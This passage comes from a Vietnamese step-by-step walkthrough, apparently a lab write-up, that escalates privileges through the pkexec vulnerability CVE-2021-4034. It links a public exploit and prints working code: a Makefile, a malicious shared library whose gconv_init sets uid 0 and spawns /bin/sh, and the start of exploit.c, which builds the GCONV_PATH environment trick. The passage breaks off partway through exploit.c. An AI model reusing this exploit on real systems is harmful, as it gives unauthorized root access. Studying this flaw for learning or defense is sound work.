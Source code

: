 **Kết quả:**

- Phiên bản pkexec là 0.96
, đây là phiên bản dễ bị khai thác (CVE-2021-4034).

#### **Bước 4: Lấy mã khai thác**

- Truy cập trang [PacketStormSecurity](https://packetstormsecurity.com/files/165739/PolicyKit-1-0.105-31-Privilege-Escalation.html) để tải mã khai thác.
    
    **Các file cần tạo:**
    
    - **Makefile**
        
    - **evil-so.c**
        
    - **exploit.c**
        
#### **Bước 5: Tạo các file khai thác**

- **Makefile:**
```js
all:
    gcc -shared -o evil.so -fPIC evil-so.c
    gcc exploit.c -o exploit
clean:
    rm -r ./GCONV_PATH=. && rm -r ./evildir && rm exploit && rm evil.so
```

- **evil-so.c:**
```js
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv() {}

void gconv_init() {
    setuid(0);
    setgid(0);
    setgroups(0);
    execve("/bin/sh", NULL, NULL);
}
```

- **exploit.c:**
```js
#include <stdio.h>
#include <stdlib.h>

#define BIN "/usr/bin/pkexec"
#define DIR "evildir"
#define EVILSO "evil"

int main()
{
    char *envp[] = {
        DIR,
        "PATH=GCONV_PATH=.",
        "SHELL=ryaagard",
        "CHARSET=ryaagard",
        NULL
    };
    char *argv[] = { NULL };
    
    system("mkdir GCONV_PATH=.");
    system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
    system("mkdir " DIR);
```